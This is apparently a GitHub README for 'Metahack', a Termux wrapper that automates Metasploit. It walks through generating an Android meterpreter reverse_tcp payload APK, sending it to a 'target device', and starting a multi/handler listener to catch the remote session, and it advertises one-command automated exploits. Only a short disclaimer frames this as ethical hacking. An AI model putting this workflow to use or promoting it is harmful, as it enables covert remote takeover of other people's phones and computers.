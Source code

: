 #  Metahack - Advanced Metasploit Automation Tool  

![GitHub Repo stars](https://img.shields.io/github/stars/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub forks](https://img.shields.io/github/forks/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub issues](https://img.shields.io/github/issues/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub license](https://img.shields.io/github/license/HYDRA-TERMUX/Metahack?style=for-the-badge)  

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x install.sh  
bash install.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
## 📥One-Click Payload Generator

![Metahack Screenshot](IMG/website.jpg)

---

## 📸 Screenshots  

![Metahack Screenshot](IMG/user_int.jpg)


---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** HYDRA TERMUX  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---

### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  
[![Download Metahack](https://img.shields.io/badge/Download-Metahack-blue?style=for-the-badge)](https://github.com/HYDRA-TERMUX/Metahack/archive/refs/heads/main.zip)


